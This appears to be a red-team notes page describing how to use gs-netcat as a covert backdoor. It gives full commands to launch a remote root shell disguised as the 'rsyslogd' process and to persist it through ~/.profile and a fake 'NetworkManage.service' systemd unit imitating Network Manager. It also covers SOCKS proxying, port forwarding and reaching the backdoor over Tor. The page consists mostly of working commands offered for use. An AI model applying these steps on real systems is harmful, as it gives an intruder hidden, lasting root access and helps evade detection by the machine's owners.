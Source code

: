 # gs-netcat

### Overview

The Global Socket Tookit allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

More on [https://www.gsocket.io](https://www.gsocket.io).

### Non Persistent backdoor

```
$(GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c "cd $HOME; exec -a rsyslogd /path/to/gs-netcat")
```

### Client Connection

```
gs-netcat -i -s MySecret
```

* Above will spawn a full pty giving you the option to tab complete and use up arrow as long as CTRL+C

### Persisting the Server .profile

The following line in the user's \~/.profile starts the backdoor (once) when the user logs in. All in one line:

The '( )' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as rsyslogd) from the process list.

```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret -liqD" SHELL=/bin/bash exec -a rsyslogd /path/to/gs-netcat)
```

* Ensure there are no syntax errors or the next time a user logs in they will see this message&#x20;

```
ssh root@ubuntu.space
root@ubuntu.space's password: 
Last login: Mon Dec 30 19:29:55 2024 from 192.168.15.172
-bash: /root/.profile: line 11: syntax error: unexpected end of file
```

* when you are connected to the backdoor this is how your process will look&#x20;

```
1 S root         442       1  0  80   0 -   794 do_wai 19:43 ?        00:00:00 rsyslogd
1 S root         443     442  0  80   0 -   829 do_sel 19:43 ?        00:00:00  \_ rsyslogd
0 S root         528     443  0  80   0 -  2105 do_sel 19:47 pts/4    00:00:00      \_ -bash
```

* above will occur no matter how you connect to the server

```
gs-netcat -s MySecret
gs-netcat -s -i MySecret
```

### Persisting the Server systemd

* create secret file&#x20;

```
gs-netcat -g >/etc/systemd/gs-root-shell-key.txt
chmod 600 /etc/systemd/gs-root-shell-key.txt
cat /etc/systemd/gs-root-shell-key.txt
abc123
```

* create service file&#x20;

```
create /etc/systemd/system/NetworkManage.service
```

```
[Unit]
Description=Network Manager
Documentation=man:NetworkManager(8)
Wants=network.target
After=network-pre.target dbus.service
Before=network.target 

[Service]
Type=simple
Restart=always
RestartSec=10
WorkingDirectory=/
ExecStart=/opt/gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il

[Install]
WantedBy=multi-user.target
```

<pre><code># ensure it does not exist first 
ls -lartF /etc/systemd/system/NetworkManage.service
# create the file
echo "[Unit]" >> /etc/systemd/system/NetworkManage.service
<strong>echo "Description=Network Manager" >> /etc/systemd/system/NetworkManage.service
</strong>echo "Documentation=man:NetworkManager(8)" >> /etc/systemd/system/NetworkManage.service
echo "Wants=network.target" >> /etc/systemd/system/NetworkManage.service
echo "After=network-pre.target dbus.service" >> /etc/systemd/system/NetworkManage.service
echo "Before=network.target" >> /etc/systemd/system/NetworkManage.service 
echo "" >> /etc/systemd/system/NetworkManage.service
echo "[Service]" >> /etc/systemd/system/NetworkManage.service
echo "Type=simple" >> /etc/systemd/system/NetworkManage.service
echo "Restart=always" >> /etc/systemd/system/NetworkManage.service
echo "RestartSec=10" >> /etc/systemd/system/NetworkManage.service
<strong>echo "WorkingDirectory=/" >> /etc/systemd/system/NetworkManage.service
</strong>echo "ExecStart=/opt/gs-netcat -k /etc/systemd/gs-root-shell-key.txt -il" >> /etc/systemd/system/NetworkManage.service
echo "" >> /etc/systemd/system/NetworkManage.service
echo "[Install]" >> /etc/systemd/system/NetworkManage.service
echo "WantedBy=multi-user.target" >> /etc/systemd/system/NetworkManage.service

cat /etc/systemd/system/NetworkManage.service
</code></pre>

* after created

```
systemctl start NetworkManage.service
systemctl enable NetworkManage.service
systemctl status NetworkManage.service
```

### Command Console

* If you connect to a listening gs-netcat server with the below options you will have access to the command console

```
gs-netcat -i -s MySecret 
```

* access it with CTRL+E c, you will see the below

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* this nicely provides a way to upload and download files as well as local commands just like in metasploit i.e. lls lcd

### Proxies

#### Server to act as a SOCKS4/4a/5 server:

```
gs-netcat -s MySecret -l -S
```

Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:

```
gs-netcat -s MySecret -p 1080
```

#### TCP Port Forward all connections to 192.168.6.7:22

Server:

```
gs-netcat -s MySecret -l -d 192.168.6.7 -p 22 
```

Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.

```
gs-netcat -s MySecret -p 2222
ssh -p 2222 root@127.0.0.1
```

The same using 1 command:

```
ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
```

### Tor Client Connection

* For the best security you should always connect to the server via tor
* Start tor in one window&#x20;

```
tor
gs-netcat -i -s MySecret -T
```
